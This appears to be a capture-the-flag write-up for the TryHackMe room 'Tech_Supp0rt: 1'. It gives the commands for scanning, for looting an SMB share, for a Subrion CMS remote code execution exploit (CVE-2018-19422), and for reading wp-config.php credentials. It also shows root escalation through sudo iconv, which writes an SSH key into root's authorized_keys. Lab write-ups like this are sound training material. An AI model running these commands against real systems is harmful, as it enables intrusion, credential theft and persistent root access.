# Tech\_Supp0rt: 1

**Room Link:** [https://tryhackme.com/room/techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

gobuster didn't find anything and the home page was just the default ubuntu page. Couldn't find anything of interest.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

## TCP/445 - SMB

**Kali**

```
smbclient -L //$VICTIM/
smbclient \\\\$VICTIM\\websvr
smb: \> ls
smb: \> prompt
smb: \> mget *
```

<figure><img src="../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

I used Cyberchef and it was able to decode the creds

<figure><img src="../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

<figure><img src="../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>











<figure><img src="../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>



I was able to access the subrion page from panel as mentioned in the message as subrion by itself doesn't work. &#x20;

```
Username: admin
Password: Scam2021
```

<figure><img src="../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>



## Shell

**Exploit:** [https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE](https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE)

Since it's using Subrion CMS v4.2.1 I looked for exploits and found one for a rce

```
sudo apt-get install python3-bs4
git clone https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE.git
cd CVE-2018-19422-SubrionCMS-RCE/
sudo python3 SubrionRCE.py -u http://$VICTIM/subrion/panel/ -l admin -p Scam2021
```

<figure><img src="../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
cat /var/www/html/wordpress/wp-config.php
```

<figure><img src="../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

The hacker reused the password for both wordpress and ssh.&#x20;

**Kali**

```
ssh scamsite@$VICTIM
Password: ImAScammerLOL!123!
```

<figure><img src="../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>



### Option #1&#x20;

Just get flag

```
LFILE=/root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```



## Privilege Escalation

**Kali**

```
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub 
```

<figure><img src="../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
LFILE=/root/.ssh/authorized_keys
echo "$YOURKEY" | sudo iconv -f 8859_1 -t 8859_1 -o "$LFILE"
```

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh root@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>







